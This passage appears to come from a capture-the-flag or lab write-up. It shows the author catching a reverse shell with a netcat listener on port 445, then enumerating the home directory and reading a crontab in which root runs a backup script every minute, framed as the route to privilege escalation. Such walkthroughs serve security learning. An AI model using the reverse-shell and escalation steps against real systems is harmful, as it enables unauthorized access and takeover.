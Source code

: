 Forward the request, and I got my shell:

```
# nc -lvp 445
listening on [any] 445 ...
172.16.146.131: inverse host lookup failed: Unknown host
connect to [172.16.146.129] from (UNKNOWN) [172.16.146.131] 44852
Linux seckenheim.net.mil 4.4.0-22-generic #40-Ubuntu SMP Thu May 12 22:03:46 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
 19:25:27 up  1:05,  0 users,  load average: 0.07, 0.04, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

Ok, next step, escalate privileges. There's only one user on the server:

```
$ ls -l /home/
total 4
drwxr-xr-x 4 langman langman 4096 May 21 22:27 langman
$ ls /home/langman/
SDINET
$ ls /home/langman/SDINET
DCA_Circular.310-P115-1
DefenseCode_Unix_WildCards_Gone_Wild.txt
FUN18.TXT
compserv.txt
fips-index.
fips_500_166.txt
fips_500_169.txt
fips_500_170.txt
fips_500_171.txt
pentagon.txt
sec-8901.txt
sec-8902.txt
sec-9540.txt
sec-9720.txt
```

Some old school reading right there, except for DefenseCode_Unix_WildCards_Gone_Wild.txt. I remember reading this a while back, and it seemed like it might be a hint on how to progress further. 

Anyway, I did more enumeration and found something interesting in /etc/crontab:

```
$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
*/1 *   * * *   root    /backup/backup.sh
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
```
